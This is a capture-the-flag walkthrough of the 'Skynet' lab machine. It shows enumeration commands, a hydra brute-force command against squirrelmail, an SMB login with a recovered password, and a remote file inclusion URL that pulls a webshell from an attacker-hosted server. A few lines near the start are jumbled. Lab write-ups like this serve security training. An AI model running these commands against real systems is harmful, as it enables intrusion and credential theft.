 # Skynet

The first thing that we should do is network scanning through nmap:

```bash
nmap -sV <target_ip>
```p.png)

Now we can see that there are samba shares.

![Alt text](../Screenshots/Skynet/nma Then I ran enumeration tool for linux target machine:

```bash
enum4linux -a <target_ip>
```

Moreover there is a listed user shown in the following image named `milesdyson`:
![Alt text](../Screenshots/Skynet/users.png)

It gave me following share
![Alt text](../Screenshots/Skynet/shares.png)

Simaltaneously, I started directory enumeration and found the following results:
![Alt text](../Screenshots/Skynet/dir_enum.png)

And there is an interesting directory seems `squirrelmail`. I visited it and found:

![Alt text](../Screenshots/Skynet/squirrelmail_login.png)

We can get some useful information through shares so I tried to get into them using the command:

```bash
smbclient //<target_ip>/anonymous -N
```

Now go into logs directory where you will find 3 log files:
![Alt text](../Screenshots/Skynet/logs.png)
```bash
get log1.txt
```
Using above command you can transfer there log files into your attacking machine on the path from where you ran the above smbClient command. Inside `log1.txt` there are many passwords. Useranme we already know, now we should try to crack the password:
```bash
hydra -l milesdyson -P log1.txt <target_ip> http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password" \
-V -t 16
```
We found the password:
![Alt text](../Screenshots/Skynet/password_found_hydra.png)

Now we have username and password, so let's try it on `squirrelmail` directory. Yes!! we logged in successfully as you can see:

![Alt text](../Screenshots/Skynet/squirrelmail_login_home.png)

Now click on the first mail having subject **Samba password reset** and you will find the password:

![Alt text](../Screenshots/Skynet/password.png)

Subject shows that this is the password of samba shares. So let's try this password:

```bash
smbclient //<target_ip>/milesdyson -U 'WORKGROUP\\milesdyson%)s{A&2Z=F^n_E.B`'
```

Now go to `notes` directory and there you will find `important.txt` file. Download it using `get` command. Now read this file and you will find something like that:

![Alt text](../Screenshots/Skynet/hidden_directory.png)

I suspected that this can be a hidden directory written in the 1st line. I tried and was right, but found nothing interested there. But then I again did the directory enumeration:

![Alt text](../Screenshots/Skynet/hidden_dir_enum.png)

Interesting directory found named `administrator`. I went to it and found there is cuppa cms is running.

Now the next question was helpful which is asking about remote file inclusion. I google about remote file inclusion in cuppa cms and found an exploit in [exploit-db](https://www.exploit-db.com/exploits/25971).


By reading the exploit I understood if I host a webshell in my attacker machine, host it via python server then i can exploit the remote file inclusion vulnerability in the target system using the following link:

```
http://<target_ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attacker_ip>:<attacker_port>/shell.txt&cmd=ls
```

It showed me the result of ls command: Now I ran some commands to find the directories and all that stuff. Then I set cmd in url as `cat /home/milesdyson/user.txt` and it gave me the flag:

![Alt text](../Screenshots/Skynet/user_flag.png)

Now we need to escalate our privileges. First thing I done is I ran the linpeas on the target machine and found come known cve's. The first I tried was:

![Alt text](../Screenshots/Skynet/exploit_name.png)

I Downloaded it's exploit from exploit-db, transferred it to the target machine. Compiled it and ran it, Boom! we go the root shell:

![Alt text](../Screenshots/Skynet/root_shell.png)

Now, you can read the root flag from `/root/root.txt`.